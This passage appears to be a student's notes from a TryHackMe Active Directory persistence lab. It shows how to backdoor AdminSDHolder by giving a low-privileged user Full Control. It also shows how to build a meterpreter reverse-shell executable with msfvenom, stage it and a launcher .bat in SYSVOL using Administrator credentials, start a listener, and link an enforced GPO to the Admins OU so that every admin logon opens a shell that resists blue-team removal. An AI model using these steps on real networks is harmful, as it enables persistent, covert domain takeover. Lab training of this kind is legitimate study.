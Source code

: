 `runas /netonly /user:thmchilddc.tryhackme.loc\Administrator cmd.exe`

*Once you have an MMC window, add the Users and Groups Snap-in (File->Add Snap-In->Active Directory Users and Computers). Make sure to enable Advanced Features (View->Advanced Features). We can find the AdminSDHolder group under Domain->System:*

*Navigate to the Security of the group (Right-click->Properties->Security):*
*Let's add our low-privileged user and grant Full Control:
    Click Add.
    Search for your low-privileged username and click Check Names.
    Click OK.
    Click Allow on Full Control.
    Click Apply.
    Click OK.*

# GPO almost impossible to kick me out
*Create a GPO that is linked to the Admins OU, which will allow us to get a shell on a host every time one of them authenticates to a host.*

`msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=persistad lport=4445 -f exe > <username>_shell.exe`

*Create the following script .bat*
`copy \\za.tryhackme.loc\sysvol\za.tryhackme.loc\scripts\<username>_shell.exe C:\tmp\<username>_shell.exe && timeout /t 20 && C:\tmp\<username>_shell.exe`


`scp am0_shell.exe za\\Administrator@thmdc.za.tryhackme.loc:C:/Windows/SYSVOL/sysvol/za.tryhackme.loc/scripts/`
`scp am0_script.bat za\\Administrator@thmdc.za.tryhackme.loc:C:/Windows/SYSVOL/sysvol/za.tryhackme.loc/scripts/` *SCP and our Administrator credentials to copy both scripts to the SYSVOL directory:*

`msfconsole -q -x "use exploit/multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set LHOST persistad; set LPORT 4445;exploit"`*listener*

**You will need to RDP into THMWRK1 and use a runas window running as the Administrator for the next steps.**

GPO Creation

The first step uses our Domain Admin account to open the Group Policy Management snap-in:

    In your runas-spawned terminal, type MMC and press enter.
    Click on File->Add/Remove Snap-in...
    Select the Group Policy Management snap-in and click Add
    Click OK

We will write a GPO that will be applied to all Admins, so right-click on the Admins OU and select Create a GPO in this domain, and Link it here. Give your GPO a name such as username - persisting GPO:

Right-click on your policy and select Enforced. This will ensure that your policy will apply, even if there is a conflicting policy. This can help to ensure our GPO takes precedence, even if the blue team has written a policy that will remove our changes. Now you can right-click on your policy and select edit:
